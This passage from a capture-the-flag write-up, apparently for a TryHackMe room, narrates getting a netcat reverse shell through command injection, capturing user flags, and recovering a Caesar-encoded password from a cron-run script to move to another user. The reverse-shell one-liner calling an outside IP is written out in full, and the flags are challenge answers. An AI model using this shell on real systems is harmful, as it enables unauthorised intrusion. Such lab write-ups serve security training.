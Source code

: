 Looks like we can inject HTML payloads. But looks like I can execute commands to (had to refer writeups).

So I tried a reverse shell and we got a shell!!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f`

We are in as `paradox`.

# user.txt

```
THM{2dccd1ab3e03990aea77359831c85ca2}
```

On investigating further I checked /etc/crontab and found something interesting!✨

`-rwxrwxr-- 1 szymex szymex 735 Feb 20 20:30 /home/szymex/SniffingCat.py`

## SniffingCat.py

```
with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr": => looks like we got his password
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```

But they are encoded. `cipher='pureelpbxr' ; for i in {0..25}; do echo $cipher | caesar $i; done`

We got a hit!! `cherrycoke`. Now we are in `szymex`.

# user.txt

```
THM{c89f9f4ef264e22001f9a9c3d72992ef}
```

## note_to_para 

```
Paradox,

I'm testing my new Dr. Pepper Tracker script. 
It detects the location of shipments in real time and sends the coordinates to your account.
If you find this annoying you need to change my super secret password file to disable the tracker.

You know me, so you know how to get access to the file.
(Looks like this message is related to the python file.)
- Szymex
```
